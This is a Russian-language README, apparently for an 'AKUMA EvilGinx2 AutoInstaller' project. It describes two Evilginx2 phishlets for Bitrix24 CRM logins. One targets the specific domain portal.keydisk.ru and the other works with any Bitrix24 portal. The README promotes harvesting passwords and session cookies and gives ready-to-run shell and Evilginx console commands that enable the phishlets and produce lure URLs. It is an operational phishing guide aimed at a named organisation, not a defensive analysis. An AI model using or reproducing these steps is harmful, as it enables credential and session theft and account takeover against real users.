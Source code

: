 # 🏢 Bitrix24 Phishlets - Руководство по использованию

## 📋 Обзор

В составе AKUMA EvilGinx2 AutoInstaller включены специальные phishlets для работы с Bitrix24 - популярной российской CRM и корпоративной платформой.

## 🎯 Доступные Bitrix24 Phishlets

### 1. `bitrix24-keydisk.yaml` 
**Специально для portal.keydisk.ru**

- ✅ Настроен под конкретный домен `portal.keydisk.ru`
- ✅ Поддерживает стандартную авторизацию (логин/пароль)
- ✅ Обнаруживает социальную авторизацию (Google, LiveID)
- ✅ Извлекает специфичные для домена cookies
- ✅ Оптимизирован под Bitrix24 интерфейс

### 2. `bitrix24-universal.yaml`
**Универсальный для любого Bitrix24**

- ✅ Работает с любым доменом Bitrix24
- ✅ Поддерживает множественные формы авторизации
- ✅ Расширенная поддержка социальных сетей
- ✅ Fallback механизмы для нестандартных установок
- ✅ Гибкая настройка через переменные

## 🚀 Быстрый старт

### Для portal.keydisk.ru

```bash
# Запуск EvilGinx2 интерактивно
sudo ./evilginx2_manager.sh interactive

# В консоли EvilGinx2:
evilginx> phishlets hostname bitrix24-keydisk your-domain.com
evilginx> phishlets enable bitrix24-keydisk
evilginx> lures create bitrix24-keydisk
evilginx> lures get-url 0
```

### Для любого другого Bitrix24

```bash
# Запуск EvilGinx2 интерактивно
sudo ./evilginx2_manager.sh interactive

# В консоли EvilGinx2:
evilginx> phishlets hostname bitrix24-universal your-domain.com
evilginx> phishlets enable bitrix24-universal
evilginx> lures create bitrix24-universal
evilginx> lures get-url 0
```

